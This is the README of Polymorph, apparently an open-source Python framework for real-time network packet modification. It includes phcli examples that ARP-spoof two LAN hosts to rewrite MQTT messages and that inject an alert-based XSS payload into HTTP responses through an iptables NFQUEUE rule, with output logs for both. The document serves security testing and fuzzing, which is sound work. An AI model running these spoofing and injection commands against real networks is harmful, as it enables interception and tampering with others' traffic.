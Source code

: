# Polymorph

Polymorph is a framework written in Python 3 that allows the modification of network packets in real time, providing maximum control to the user over the contents of the packet. This framework is intended to provide an effective solution for real-time modification of network packets that implement practically any existing protocol, including private protocols that do not have a public specification. In addition to this, one of its main objectives is to provide the user with the maximum possible control over the contents of the packet and with the ability to perform complex processing on this information.


# Installation

## Download and installation on Linux (Recommended)

Polymorph is specially designed to be installed and run on a Linux operating system, such as Kali Linux. Before installing the framework, the following requirements must be installed:

```
apt-get install build-essential python-dev libnetfilter-queue-dev tshark tcpdump python3-pip wireshark
```
After the installation of the dependencies, the framework itself can be installed with the Python pip package manager in the following way:
```
pip3 install --process-dependency-links polymorph
```

## Docker environment

From the project root:
```
docker-compose up -d
```
To access any of the machines of the environment:
```
docker exec -ti [polymorph | alice | bob] bash
```

# Using Polymorph

The Polymorph framework is composed of two main interfaces:

 - **Polymorph:** It consists of a command console interface. It is the main interface and it is recommended to use it for complex tasks such as modifying complex protocols in the air, making modifications of types in fields of the template or modifying protocols without public specification.
 - **Phcli:** It is the command line interface of the Polymorph framework. It is recommended to use for tasks such as modification of simple protocols or execution of previously generated templates.

## Using the Polymorph main interface
For examples and documentation please refer to:

-   [English whitepaper](https://github.com/shramos/polymorph/blob/master/doc/whitepaper/whitepaper_english.pdf)
-   [Spanish whitepaper](https://github.com/shramos/polymorph/blob/master/doc/whitepaper/whitepaper_spanish.pdf)
-   [Building a Proxy Fuzzer for the MQTT protocol with Polymorph](http://www.shramos.com/2018/04/building-proxy-fuzzer-for-mqtt-protocol.html)

## Using the Phcli

### Modifying the MQTT protocol

Let's see how to use the Polymorph command line interface to spoof the communication between two machines and modify MQTT protocol.

 - Let's start by seeing how the Polymorph framework dissects the MQTT Publish packet.
```
# phcli -p mqtt --show-fields --in-pkt test_topic

[INFO] Waiting for a network packet which implements the MQTT protocol
[INFO] The packet will be dissected to show its fields
[OK] Sniffing process started. Waiting for packets...
[OK] Packet captured. Printing the fields...

---[ RAW.MQTT ]---
str hdrflags          = 0 (0x00000030)
int msgtype           = 48 (3)
int dupflag           = 48 (0)
int qos               = 48 (0)
int retain            = 48 (0)
int len               = 24 (24)
int topic_len         = 10 (10)
str topic             = test_topic (test_topic)
str msg               = test_message (test_message)
```

 - Now that we know how polymorph dissects the MQTT Publish packets and how it names the fields, we are going to modify the `msg` field by spoofing the two remote machines that communicate using MQTT.

```
# phcli -s arp -tg 192.168.1.102 -g 192.168.1.121 -p mqtt -f msg -v "new_value" --in-pkt "test_topic"

[OK] ARP spoofing started between 192.168.1.121 and 192.168.1.102
[INFO] Polymorph needs to capture a packet like the one you want to modify in real time to learn how it is.
[INFO] It will be in sniffing mode until you generate the packet
[OK] Sniffing mode started. Waiting for packets...
[INFO] Great! Polymorph has the structure of the packet! Let's start breaking things!
[OK] Process of interception and modification of packets in real time started.
[*] Waiting for packets...

(Press Ctrl-C to exit)

###[ IP ]### 
  version   = 4
  ihl       = 5
  tos       = 0x0
  len       = 75
  id        = 28767
  flags     = DF
  frag      = 0
  ttl       = 63
  proto     = tcp
  chksum    = 0x471e
  src       = 192.168.1.102
  dst       = 192.168.1.121
  \options   \
###[ TCP ]### 
     sport     = 49198
     dport     = 1883
     seq       = 4046645883
     ack       = 938260113
     dataofs   = 8
     reserved  = 0
     flags     = PA
     window    = 229
     chksum    = 0x7526
     urgptr    = 0
     options   = [('NOP', None), ('NOP', None), ('Timestamp', (3643906, 1823353))]
###[ Raw ]### 
        load      = '0\x16\x00\ntest_topicnew_value'
```

### Modifying the HTTP protocol

Let's see a last example modifying HTTP packages to inject a simple XSS in localhost. After executing the command simply navigate with your browser through an HTTP page.
```
# phcli -p tcp --in-pkt "</html>" -b "\-54:\-20" -v '"><script>alert("hacked")</script>' -ipt "iptables -A INPUT -j NFQUEUE --queue-num 1"

[INFO] Polymorph needs to capture a packet like the one you want to modify in real time to learn how it is.
[INFO] It will be in sniffing mode until you generate the packet
[OK] Sniffing mode started. Waiting for packets...
[INFO] Great! Polymorph has the structure of the packet! Let's start breaking things!
[OK] Process of interception and modification of packets in real time started.
[*] Waiting for packets...

(Press Ctrl-C to exit)

###[ IP ]### 
  version   = 4
  ihl       = 5
  tos       = 0x0
  len       = 898
  id        = 9382
  flags     = DF
  frag      = 0
  ttl       = 54
  proto     = tcp
  chksum    = 0xef66
  src       = 194.150.169.131
  dst       = 192.168.0.167
  \options   \
###[ TCP ]### 
     sport     = http
     dport     = 52210
     seq       = 3481765999
     ack       = 2589984605
     dataofs   = 8
     reserved  = 0
     flags     = PA
     window    = 2049
     chksum    = 0x3df4
     urgptr    = 0
     options   = [('NOP', None), ('NOP', None), ('Timestamp', (4180691237, 3065344385))]
###[ Raw ]### 
        load      = 'm Mongo\n10.  Elite World News by Dr. Dude\n11.  Elite World News by Dr. Dude\n\n\nComing soon...\n\n                                 Phrack Jolt!\n\n                       All the VMBs and TWICE the c0deZ!\n_______________________________________________________________________________\n</pre>\n\n</div>\n</div>\n\n</center>\n\n<div align="center" class="texto-2-bold">\n[ <a href="../../index.html" title="News">News</a> ]\n[ <a href="../../papers/dotnet_instrumentation.html" title="Paper Feed">Paper Feed</a> ]\n[ <a href="../../issues/69/1.html" title="Issues">Issues</a> ]\n[ <a href="../../authors.html" title="Authors">Authors</a> ]\n[ <a href="../../archives/" title="Archives">Archives</a> ]\n[ <a href="../../contact.html" title="Contact">Contact</a> ]\n</div>\n\n<div align="right" class="texto-1">\xc2\xa9 Copyl"><script>alert("hacked")</script>iv>\n</body>\n</html>\n'
```

# Release Notes
[release-notes-1.0.0](https://github.com/shramos/polymorph/blob/master/doc/release-notes/release-notes-1.0.0.md)

# Contact

[shramos@protonmail.com](mailto:shramos@protonmail.com)